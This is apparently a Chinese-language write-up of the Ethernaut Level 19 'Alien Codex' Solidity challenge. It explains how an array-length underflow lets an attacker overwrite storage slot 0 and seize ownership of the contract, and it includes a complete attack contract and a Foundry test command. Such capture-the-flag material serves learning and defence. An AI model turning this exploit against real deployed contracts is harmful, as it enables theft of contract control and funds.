

<div align="center">
<p align="left">(<a href="https://github.com/XuHugo/Ethernaut-Foundry-Solutions/tree/main/solutions">back</a>)</p>


<br><br>
<h1><strong>Ethernaut Level 19 - Alien Codex</strong></h1>

</div>
<br>

详细解读文章: [Ethernaut Foundry Solutions | Level 19 - Alien Codex](https://blog.csdn.net/xq723310/)

## 目录

- [目录](#目录)
- [目标](#目标)
- [漏洞](#漏洞)
- [解答](#解答)
- [要点](#要点)
- [参考](#参考)

## 目标

拿到合约的所有权


## 漏洞

如何拿到 `AlienCodex` 的所有权呢？ 我们可以看到他是继承于`OpenZeppelin Ownable`,这个 `owner` 的存储是在 `Ownable` 中定义的，它会和 contact 一起放在 storage 的 slot 0 处，我们就是改变这个位置的值.

我们看一下存储结构:

| Slot Index | var name | Var Type  | Var Size                              |
| ---------- | -------- | --------- | ------------------------------------- |
| 0          | owner    | address   | 20 bytes                              |
| 0          | contact  | boolean   | 1 byte                                |
| 1          | codex    | bytes32[] | 32 bytes  字节长度 |

现在我们接着看剩下的代码。所有的函数，都需要通过`contacted`，当contact为True 时才执行后续动作;`makeContact()` 函数可以将contact变成True，而且任何人都可以调用，所以我们首先调用`makeContact()`，解除限制。

```javascript
 modifier contacted() {
    assert(contact);
    _;
  }
```

合约剩下的函数，`record()`, `retract()`, `revise()`，都与数组`codex`相关，可以添加、删除或更新内容。还有一个关键点，Solidity 版本是pragma solidity ^0.5.0，小于0.8.0 意味着可能有overflow/underflow 漏洞，我们正好利用这点。

### 1. 数组溢出

```javascript
    function retract() public contacted {
        codex.length--;
    }
```

`retract()`的逻辑`array.length--`，可能会导致溢出。如果当前长度为0，对当前长度为0 的codex减去1，它的长度会因0 - 1 发生下溢变成一个极大值2²⁵⁶ - 1 (0xfff…fff)，也就是codex长度变成和合约storage slot 总数相同(2²⁵⁶ -1)。

再来是最关键的部分！有了这么长的codex，其index 将能涵盖合约整个storage slot 的数量，也代表调用`revise()`可以指定任意的storage slot 作为参数index ，并将任一数值写入指定的storage slot，这正是我们改写slot 0数值的唯一方法。

### 2. 修改slot0

问题是要给予什么index 才能改写位于slot 0 的数值。来点简单的数学，已知storage layout 如下：

|Slot         |  Data                         |
|-------------|-----------------              |
|   0         |  owner address , contact bool |
|   1         |  codex .length                |
|   ... ...   |                               |
|   p         |  codex [0]                    |
| p + 1       |  codex [1]                    |
|   ... ...   |                               |
|2 ^ 256 - 2  |    codex [2^256 - 2 - p]      |
|2 ^ 256 - 1  |    codex [2^256 - 1 - p]      |
|   0         |  codex [2 ^256 - p]           |

假设codex[0] 位于 slot p，则上表最下方的codex[2²⁵⁶ — p] 将因overflow 而位于slot 0，它(2²⁵⁶ — p) 就是我们要计算出的index。codex[0] 会储存在keccak256(codex.length 所在slot)，故 p 值等于keccak256(1)，将p 值带入codex[2²⁵⁶ — p] 后可得：index = 2^256 - keccak256(1)，index 答案就出来啦！有了正确的index，再把msg.sender 的地址写入即可取得合约所有权。

## 解答

实现攻击合约:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract Attack {
    AlienCodex instance;

    constructor(address fb) {
        instance = AlienCodex(fb);
    }

    function attack() public {
        instance.makeContact();
        instance.retract();

        unchecked {
            uint index = uint256(2) ** uint256(256) -
                uint256(keccak256(abi.encode(uint256(1))));
            instance.revise(index, bytes32(uint256(uint160(msg.sender))));
        }
    }
}

```

你可以在项目的根目录执行以下命令，进行验证：

```bash
forge test --match-contract  AlienCodexTest  -vvvvv
```

## 要点

- 注意溢出，不过现在0.8.0有自动溢位检查!

## 参考

- Array Members: https://docs.soliditylang.org/en/latest/types.html#array-members

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
